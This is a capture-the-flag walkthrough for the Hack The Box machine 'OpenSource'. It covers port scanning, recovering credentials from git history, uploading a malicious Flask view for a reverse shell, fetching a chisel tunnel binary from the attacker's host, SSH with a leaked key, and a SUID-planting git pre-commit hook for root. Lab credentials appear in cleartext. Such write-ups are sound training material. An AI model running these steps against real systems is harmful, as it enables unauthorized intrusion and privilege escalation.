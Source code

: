 # [OpenSource](https://app.hackthebox.com/machines/OpenSource)

```bash
nmap -p- --min-rate 10000 10.10.11.164 -Pn  
```

![Alt text](img/image.png)


After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.164 -Pn  
```

![Alt text](img/image-1.png)


Now, I will directory enumeration via `gobuster` command.

```bash
gobuster dir -u http://10.10.11.164/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![Alt text](img/image-2.png)


While opening `/download` endpoint, I download `source.zip` file.

I `cd` into `.git` directory and do enumeration for `git` repository.


First, I see branches of this repository via `git branch -a`.

![Alt text](img/image-3.png)


I switch into `dev` branch from `public` branch via `git checkout` command.
```bash
git checkout dev
```

![Alt text](img/image-4.png)


Let's look at last commits via `git log` command.
```bash
git log --name-only --oneline
```
![Alt text](img/image-5.png)

I go back to commit named as 'a76f8f7'.
```bash
git checkout a76f8f7 -- app/.vscode/settings.json
```

![Alt text](img/image-6.png)


I grab credentials from this `settings.json` file.

dev01:Soulless_Developer#2022


While browsing `/console` endpoint, I confront with `Python Flask Debug` page, but there's PIN already set.

![Alt text](img/image-7.png)


To debug this password, I found such [blog](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug).


Another way to get shell is easy for me that uploading file into location where I now.

That's location called `/app/app/views.py` via reverse shell content.

![Alt text](img/image-8.png)


I upload this malicious `views.py` script via file upload by catching request.

![Alt text](img/image-9.png)


Now, while browsing `/dr4ks` endpoint, I will get reverse shell.

![Alt text](img/image-10.png)

I got reverse shell from port (1337).

![Alt text](img/image-11.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("sh")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-12.png)


Now, I got shell, from my nmap scan there's service running on port `3000`, let's curl this application via `curl`.

```bash
wget 172.17.0.1:3000 -O-
```

![Alt text](img/image-13.png)


That's `Gitea` application, let's do `HTTP Tunneling`.

I do this via `chisel` binary.


First, we need to open `http server` to serve my malicous `chisel` binary.

```bash
python3 -m http.server --bind 10.10.14.10 8080
```

![Alt text](img/image-14.png)


Then, we need to get this file via `wget` binary.
```bash
wget http://10.10.14.10:8080/chisel_1.9.1_linux_amd64
```

![Alt text](img/image-15.png)


Let's create HTTP tunnel, for this I need to open `listener`.
```bash
chisel server -p 8000 --reverse
```

![Alt text](img/image-16.png)


Now, we need to write below command on target machine.

```bash
./chisel_1.9.1_linux_amd64 client 10.10.14.10:8000 R:3000:172.17.0.1:3000
```

![Alt text](img/image-17.png)


While browsing `localhost:3000`, I can see `Gitea` server.

I login into this `Gitea` via credentials which I got from last commits of repository.

dev01:Soulless_Developer#2022

![Alt text](img/image-18.png)


I found `private_key(id_rsa)` file on repository.

![Alt text](img/image-19.png)


Let's copy this `id_rsa` file and save it.

```bash
chmod 600 id_rsa
ssh -i id_rsa dev01@10.10.11.164
```

user.txt

![Alt text](img/image-20.png)


Now, I will upload `pspy64` into machine and run.

I see one interesting bash script that called `/usr/local/bin/git-sync`.

![Alt text](img/image-21.png)


I read this and it is `bash` script.

![Alt text](img/image-22.png)


For this, I will use `git hooks` which are scripts are run various events on git repository.


So that, I will write malicious code which copies `/bin/bash` file named as `dr4ks` and give `SUID` privilege to this file.

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/dr4ks\nchown root:root /tmp/dr4ks\nchmod 4777 /tmp/dr4ks' > pre-commit
chmod +x pre-commit
```

![Alt text](img/image-23.png)


Now we can run this `dr4ks` binary via `-p` option.

![Alt text](img/image-24.png)


root.txt

![Alt text](img/image-25.png)